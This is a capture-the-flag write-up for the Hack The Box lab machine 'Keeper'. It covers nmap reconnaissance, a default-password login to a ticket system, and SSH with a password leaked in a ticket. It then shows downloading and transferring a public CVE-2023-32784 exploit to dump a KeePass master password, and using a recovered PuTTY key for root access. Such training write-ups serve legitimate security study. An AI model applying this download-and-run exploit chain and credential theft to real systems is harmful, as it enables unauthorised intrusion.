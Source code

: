 # HTB KEEPER Walktrough

This walktrough is about the "hacking" of the HTB box "Keeper"

## Step 1: Getting Information
### Simple NMAP scan

```bash
sudo nmap -sV {IP}
```
![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/56cdfc90-2329-4d9a-a052-959e842ac1ac)

What interests us here is the open TCP port 80. This port hosts an Nginx server that's up and running. So, we'll go ahead and check out this website. On the page, there's a text that points us to 'tickets.keeper.htb/rt/'. That's where we'll head next.

### Visit of the Website

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/01164585-ca00-434b-b5e8-762d7adc4148)


When we go to 'tickets.keeper.htb/rt/', this error message greets us. To bypass this error, we attempt to include the domain in our hosts file.


```bash
sudo nano /etc/hosts
```
![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/62d8b29c-6404-4f6e-9442-eedf3e1bb436)


After reloading the page, the website becomes visible!

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/a2f4c715-c200-4818-b5ff-82e903f35707)


## Step 2: Exploiting User Access

Initially, my approach involved searching for potential CVEs. While I did come across a few, unfortunately, none of them proved to be useful for this particular box.

As a next step, I decided to give the default password a shot: 

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/72e53b79-d2d7-4295-be5c-926febc67e64)


### And Success! We're In!

After conducting some tests within the ticket system, I managed to uncover this user: 

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/0f1c78a9-52ed-4afe-8e00-396779f359e3)


I stumbled upon an interesting comment related to the user!

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/0aa0fc38-35a8-441e-882d-097c6f4bd812)


Thus, I decided to attempt an SSH connection using the following command:

```bash
ssh lnorgaard@10.10.11.227
```

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/9574802d-5429-4301-8c21-4ca21026bddd)


That approach worked like a charm! Fantastic!

Additionally, I came across the 'user flag.txt' as well.


![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/deaf72e0-5c3a-4232-8365-713c59619443)


## Step 3: Escalating Privileges

Within lnorgaard's ticket, I stumbled upon this intriguing message:

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/885363ac-25d3-4e07-8541-9c304e3630df)

With the recent Keepass bug fresh in my mind, I began to search for potential avenues. After a brief investigation, I came across the CVE "CVE-2023-32784" and an existing functional exploit available at https://github.com/CMEPW/keepass-dump-masterkey.


### Uploading the PoC to the Server

To upload the PoC to the server, follow these steps:

1. Begin by downloading the script to your client machine using this command:

   ```bash
   wget https://raw.githubusercontent.com/CMEPW/keepass-dump-masterkey/main/poc.py
   ```

2. Next, start an HTTP server on your local machine using:

   ```bash
   python3 -m http.server
   ```

3. After that, you need to download the Python script to the HTB client with:

   ```bash
   wget https://{YOUR VPNIP}:8000/poc.py
   ```

4. Finally, execute the Python script using:

   ```bash
   python3 poc.py KeePassDumpFull.dmp
   ```

Running the script should produce the following output:

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/41f3101f-54f0-43b2-b498-cb96e24870f8)

Since the obtained output isn't the actual password, we'll need to dig deeper to uncover the real password. Noticing that certain letters remain consistent, I'll focus on those.

To deduce the password, I've attempted a unique approach: replacing the special characters with '*' and using this modified pattern to search for clues online.

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/8827332c-cc0f-4551-a920-e17a8aa3473d)

The initial search yields the result 'Rødgrød med fløde.' I'll proceed to test this phrase on the downloaded Keepass file.

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/95466858-8f3b-4115-a44f-306bcf4a484a)

Unfortunately, 'Rødgrød med fløde' didn't work. I'll now attempt the same phrase in full lowercase.

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/e78f26d9-b4e4-4d6e-bfb6-9971432085b4)

Once again, success! Great job!

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/4bce287c-0eaa-42b2-a06c-06c32313221a)



In the Network category, a Putty SSH key for the root user is discovered. To use this Putty SSH key on Linux, it needs to be converted from the '.ppk' format to the '.pem' format. The conversion process can be achieved using the 'puttygen' package. It's important to create a separate file for each note in the Keepass, ensuring the entire note content is copied into the new file.

If the key file is named 'keeper.ppk', here's the command to perform the conversion:

```bash
puttygen keeper.ppk -O private-openssh -o htb.pem
```

Following the conversion, you can SSH to the server using the Linux SSH key:

```bash
ssh root@10.10.11.227 -i htb.pem 
```

With this setup, you'll have access to retrieve the root flag!

![image](https://github.com/chris-devel0per/htb-keeper/assets/101336067/3350909d-0a31-4ff7-bf34-d18d3606e6a6)

